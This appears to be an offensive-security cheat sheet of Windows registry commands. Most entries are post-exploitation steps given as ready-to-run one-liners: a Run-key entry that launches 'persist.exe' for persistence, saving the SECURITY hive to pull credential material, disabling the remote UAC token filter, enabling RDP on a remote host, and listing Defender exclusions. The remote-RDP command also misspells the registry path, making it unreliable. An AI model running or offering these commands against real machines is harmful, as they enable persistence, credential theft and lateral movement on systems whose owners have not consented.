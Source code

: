 ### Add registry entry
```
reg add <path> /v <value> /t <type> /d <pathToFile>
```

### Delete registry entry 
```
reg delete "<path>" /v <value> /f
```

### Add example (REG_SZ UTF-16 LE string)
```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v someRegistry /t REG_SZ /d "C:\Users\username\persist.exe"
```

### Delete example
```
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v someRegistry /f
```

### Get information about registry key
```
reg query "<path>"
```

### Write security hive to file (sam, system, security, software)
```
reg save hklm\security <file>
```


### Re-enable command prompt
```
reg add HKCU\Software\Policies\Microsoft\Windows\System /v DisableCMD /t REG_DWORD /d 0 /f
```

### Disable remote user account control (UAC) local account token filter policy
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

### Enable remotely RDP
```
reg add "\\<rhost>\HKLM\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Read configured Windows defender exclusions
```
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
```

